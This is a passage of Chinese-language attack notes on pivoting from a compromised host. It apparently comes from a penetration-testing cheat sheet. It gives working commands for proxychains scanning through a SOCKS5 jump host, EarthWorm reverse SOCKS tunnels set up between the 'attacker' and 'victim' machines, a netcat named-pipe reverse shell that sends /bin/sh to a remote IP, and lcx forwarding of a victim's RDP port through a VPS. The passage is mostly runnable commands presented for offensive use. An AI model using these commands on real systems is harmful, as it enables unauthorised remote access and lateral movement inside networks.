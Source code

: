 **攻击机：**

> proxychain 设置 socks5 为跳板 ip port
>
> proxychain nmap 即可以用跳板代理扫描其他主机

****反向：****

**攻击机：**

> chmod 777 ./ew_for_linux64
>
> ./ew_for_linux -s rcsocks -l 1080 -e 2333 即被攻击机连接本机 2333 端口，转发到本机的 1080 端口，访问本机的 1080 端口，相当访问被攻击机的 2333

设置 

> proxychain socks5 本主机 ip port：1080
>
> proxychain 代理即可

**被攻击机：**

> chmod 777 ew_for_linux
>
> ./ew_for_Linux32 -s rssocks -d 192.168.1.100 -e 2333

### nc

nc 简单使用

> https://tom0li.github.io/2017/05/06/nc/

linux root 权限

> mknod /tmp/backpipe p  
>
> /bin/sh 0</tmp/backpipe | nc ip port 1>/tmp/backpipe

权限不够用 

> ```
> mkfifo /tmp/backpipe
> ```

以上用 nc 监听即可

### lcx

被攻击机 

> lcx.exe -slave 139.1.2.3 8888 10.48.128.25 3389

vps    

> lcx.exe –listen 8888 5555

在本机 mstsc 登陆 139.1.2.3:5555 或在 vps 连接 127.0.0.1:5555

### netsh win自带(只支持 tcp )360 拦
